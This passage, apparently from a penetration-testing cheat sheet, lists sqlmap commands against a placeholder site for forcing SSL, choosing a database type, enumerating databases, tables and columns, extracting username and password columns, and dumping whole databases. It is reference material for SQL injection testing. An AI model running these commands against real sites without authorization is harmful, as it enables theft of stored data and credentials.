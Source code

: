 ```sh

# Force SSL/TLS (--force-ssl)
sqlmap -u "https://example.com/?q=test" --force-ssl
```

### Specify DBMS (Database Management System)

We can specify DBMS such as **`mysql`, `postgres`, `sqlite`** to avoid unnecessary attempts.

```sh
sqlmap -u "https://example.com/?q=test" --dbms mysql
sqlmap -u "https://example.com/?q=test" --dbms postgres
sqlmap -u "https://example.com/?q=test" --dbms sqlite
```

### Enumerations

```sh
# List databases
# --dbs: List databases
sqlmap -u "https://example.com/?q=test" --dbs

# List tables
# -D: Specific name of the database
# --table: List tables
sqlmap -u "https://example.com/?q=test" -D exampledb --tables

# List columns
# -T: Specific name of the table
# --columns: List columns
sqlmap -u "https://example.com/?q=test" -D exampledb -T users --columns

# Get each column value
# -C: Specific name of the column. We can specify single column or multiple columns
sqlmap -u "https://example.com/?q=test" -D exampledb -T users -C username
sqlmap -u "https://example.com/?q=test" -D exampledb -T users -C username,password

# Get current user and database
sqlmap -u "https://example.com/?q=test" --current-user
sqlamp -u "https://example.com/?q=test" --current-db
```

### Dump Entories

We can dump entories by adding **`--dump`** flag.

```sh
sqlmap -u "https://example.com/?q=test" --dump
# Specify dbms, database, table
sqlmap -u "https://example.com/?q=test" --dump --dbms mysql -D exampledb -T users

# Dump all entories
sqlmap -u "https://example.com/?q=test" --dump-all
```
